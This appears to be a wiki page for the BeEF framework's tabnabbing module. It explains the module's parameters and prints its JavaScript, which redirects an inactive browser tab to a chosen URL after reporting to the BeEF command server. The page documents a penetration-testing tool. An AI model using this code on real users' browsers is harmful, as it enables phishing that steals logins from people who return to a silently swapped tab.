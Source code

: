 ##Summary
* **Objective**: This module redirects to the specified URL after the tab has been inactive for a specified amount of time.
* **Authors**: bcoles
* **Browsers**: 1ll
* **Parameters** :
  * **URL** : URL for the redirection
  * **Wait** : Time before redirecting (in minutes)
* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/tabnabbing)

##Internal Working 

Internal workig is pretty easy : when the tab loose focus, it starts a timer. When the timer ends the browser is redirected to the given URL :

```javascript
window.onblur = function() {
    begin_countdown();
}

window.onfocus = function() {
    clearTimeout(tabnab_timer);
}

begin_countdown = function() {
    tabnab_timer = setTimeout(function() { beef.net.send('<%= @command_url %>', <%= @command_id %>, 'tabnab=redirected'); window.location = url; }, wait);
}
```

## Screenshots

[[Images/module-tabnabbing1.png|align=center]]

## Feedback

* One improvement may be to replace the redirection by a 100% iframe.
* It should be noticed that the time given is in minute which may be long regarding average of web sessions

## References
* [Tabnabbing: A New Type of Phishing Attack](http://www.azarask.in/blog/post/a-new-type-of-phishing-attack/) by Aza Raskin